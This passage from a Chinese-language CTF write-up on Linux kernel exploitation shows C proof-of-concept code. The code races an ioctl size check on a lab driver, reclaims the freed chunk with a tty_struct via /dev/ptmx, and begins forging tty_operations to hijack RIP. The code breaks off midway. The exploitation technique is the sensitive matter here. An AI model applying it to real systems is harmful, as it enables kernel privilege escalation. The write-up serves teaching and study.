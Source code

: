 [![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-21-080002.png)

##### 伪造`tty_operations`结构体&amp;控制RIP

构造如下PoC就可以伪造`tty_operations`结构体，并将函数流程引导至`0xDEADBEEF`。

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stropts.h&gt;
#include &lt;pthread.h&gt;
struct IO_noob {
    uint64_t index;
    void *buf;
    uint64_t size;
};
struct IO_noob io;

void fake_size() {
    while(1) {
        io.size = 0x2C0; 
    }
}

int main()
{
    size_t IO_value[5] = {0};
    size_t Fake_tty_operations[0x118/8] = {0};
    Fake_tty_operations[12] = 0xDEADBEEF;

    int fd1 = open("/dev/noob", O_RDONLY);

    pthread_t t;
    pthread_create(&amp;t, NULL, (void*)fake_size, NULL);
    io.index = 0;
    io.buf   = IO_value;

    while (1)
    {
        io.size  = 0x10;
        if(ioctl(fd1, 0x30000, &amp;io) == 0)
            break;
    }
    pthread_cancel(t);
    puts("[+] Now we have a 0x2C0 size Chunk!");

    ioctl(fd1, 0x30001, &amp;io);
    int fd2 = open("/dev/ptmx", O_RDWR);
    if (fd2 &lt; 0) {
        puts("[-] open error");
        exit(-1); 
    }
    puts("[+] Now we can write tty struct Chunk!");

    io.size  = 0x30;
    ioctl(fd1, 0x30003, &amp;io);
```